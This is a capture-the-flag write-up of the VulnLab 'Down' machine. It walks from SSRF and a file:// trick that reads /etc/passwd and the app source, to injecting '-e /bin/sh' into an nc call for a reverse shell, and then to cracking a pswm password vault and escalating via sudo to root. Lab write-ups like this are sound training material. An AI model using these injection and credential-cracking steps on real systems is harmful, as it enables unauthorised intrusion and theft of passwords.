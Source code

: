 ```yaml
---
title: VulnLab -- Down Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [web exploitaion,cve]
image:
    path: /images/Down-banner.png
---
```

# Down

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Down** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/down-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,80 --min-rate=1000 10.10.80.76
```

![image.png](../images/down.png)

Now let’s go and enumerate the website running on port 80

![image.png](../images/down%201.png)

The web application has a simple functionality that check if the website is down or not.

Now let’s open a http server and try to request ourselves

```bash
python3 -m http.server 80
```

![image.png](../images/down%202.png)

Now let’s enter our host in the application

```bash
http://10.8.5.233
```

![image.png](../images/down%203.png)

Now let’s see if we go a request!

![image.png](../images/down%204.png)

and we Did!

Now let’s try Server-Side Request Forgery (SSRF)

```bash
http://127.0.0.1
```

![image.png](../images/down%205.png)

Okay nice we got a response back.

Now let’s try to fuzz the localhost ports using FFUF

First let us create a port wordlist

```bash
for i in {1..65535}; do echo $i >> ports.txt; done
```

![image.png](../images/down%206.png)

Now let’s use FFUF

```bash
ffuf -u "http://10.10.80.76/index.php" -X POST --data "url=http://127.0.0.1:FUZZ" -w ports.txt -fw 131
```

![image.png](../images/down%207.png)

Unfortunately no luck! 😓

Let’s go back to our website and try to add the file wrapper after the valid URL

```bash
http://10.8.5.233/ file:///etc/passwd
```

![image.png](../images/down%208.png)

and we did it we have a Local File Inclusion so let’s go and read the source code of the application.

```bash
http://10.8.5.233/ file:///var/www/html/index.php
```

![image.png](../images/down%209.png)

> Amazing! we got the application source code.
> 

Now let’s start analysis.

```php
if ( $valid_ip && $valid_port ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">'; 
```

![image.png](../images/down%2010.png)

> Notice that there is an advanced feature named expertmode this allow us to execute nc in the server terminal
> 

now let’s try to abuse it

First go to the website and enable the expert mode through the expertmode GET parameter.

```bash
http://10.10.80.76/index.php?expertmode=tcp
```

![image.png](../images/down%2011.png)

notice that the design changed!

Now open a listener on your machine 

```bash
nc -nlvp 1337
```

![image.png](../images/down%2012.png)

no go back to the website and enter you IP in the IP filed and you port in the port tab and intercept the request.

![image.png](../images/down%2013.png)

Now let’s intercept the request.

![image.png](../images/down%2014.png)

now in the port parameter append the following

```bash
-e /bin/sh
```

![image.png](../images/down%2015.png)

That will till the nc to execute the bash to us.

now send and go back to our listener.

![image.png](../images/down%2016.png)

now let’s stable the shell

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image.png](../images/down%2017.png)

now press CTRL + Z

![image.png](../images/down%2018.png)

now let’s enter this in the terminal

```python
stty raw -echo;fg
```

![image.png](../images/down%2019.png)

last enter this command

```python
export TERM=xterm
```

![image.png](../images/down%2020.png)

now we got full stable shell

also we got the flag yeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeah!

![image.png](../images/down%2021.png)

now let’s try to get root privilege

navigate to the local user directory

```python
cd /home/aleks/.local/share/pswm
```

![image.png](../images/down%2022.png)

Notice that we found the user password manager so let’s use pswm-decryptor to decrypt it.

```python
cat pswm
```

![image.png](../images/down%2023.png)

now let’s run the decryptor

```python
python3 pswm-decrypt.py -f pswm -w /usr/share/wordlists/rockyou.txt 
```

![image.png](../images/down%2024.png)

notice that we decrypted the passwords and got the password for the user Aleks.

Now let’s login via SSH

```python
ssh aleks@10.10.80.76
```

![image.png](../images/down%2025.png)

and we logged it! 

Now let’s try to see our privileges on the machine

```python
sudo -l
```

![image.png](../images/down%2026.png)

notice that we can run everything as root!

```python
sudo su
```

![image.png](d../images/own%2027.png)

now let’s cd to the root directory and see the flag!

```python
cd /root;ls -las
```

![image.png](../images/down%2028.png)

Amazing I did it!

![image.png](../images/down%2029.png)

That’s it for the **Down** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX
